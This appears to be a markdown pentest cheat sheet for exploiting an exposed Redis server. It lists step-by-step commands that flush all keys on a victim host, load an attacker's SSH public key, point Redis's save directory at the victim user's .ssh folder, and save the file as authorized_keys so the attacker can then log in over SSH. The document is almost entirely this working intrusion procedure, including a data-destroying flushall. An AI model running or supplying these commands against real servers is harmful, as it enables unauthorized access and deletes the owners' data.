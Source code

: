 ### Redis:
Data structure store, used as a database, cache and message broker. It supports data structures such as strings, hashes, lists, sets, sorted sets with range queries, bitmaps, hyperloglogs, geospatial indexes with radius queries and streams

#### nmap

#### telnet
- telnet <victim_ip> <redis_port_usually_6379>

#### Generate SSH key
- ssh-keygen -t rsa -C <youremail>@<email_domain>

### Add random data before and after our key:
- (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt

### Connect to redis 
- redis-cli -h <victim_ip>

### Flush keys
- redis-cli -h <victim_ip> -p 6379 flushall

### Set our keys into the database
- cat key.txt | redis-cli -h <victim_ip> -p 6379 -x set bb

### Check the current folder 
- config get dir

### Change out directory
- config set dir /<victim_user_name>/.ssh/

### Change name of our file
- set dbfilename "authorized_keys"

### Save changes
- save

### Try to login into server via SSH
